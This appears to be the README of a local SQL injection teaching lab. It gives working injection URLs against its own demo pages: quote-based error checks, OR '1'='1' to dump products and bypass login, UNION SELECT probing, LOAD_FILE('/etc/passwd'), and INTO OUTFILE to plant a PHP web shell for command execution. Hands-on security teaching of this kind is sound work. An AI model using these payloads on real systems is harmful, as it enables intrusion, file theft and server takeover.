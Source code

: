 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

http://127.0.0.1:8781/list_products/products_page.php?value=100

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/list_products/products_page.php?value=100%27

### List all products

http://127.0.0.1:8781/list_products/products_page.php?value=100' OR '1'='1

# Login Example

## Standard

http://127.0.0.1:8781/login/login.php

Enter 'admin', 'admin'

## Attack

### Verification

Error when calling this url:

http://127.0.0.1:8781/login/login.php?user=user'&password=pass'

### Circumvent Login

http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1

# Read sensible Files

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%201,2,3

## Attack

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/list_user/user_information.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

## Write Code to Server

Use `INTO OUTFILE`: 

http://127.0.0.1:8781/user_information.php?UserID=1%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8781/cmd.php?cmd=ls

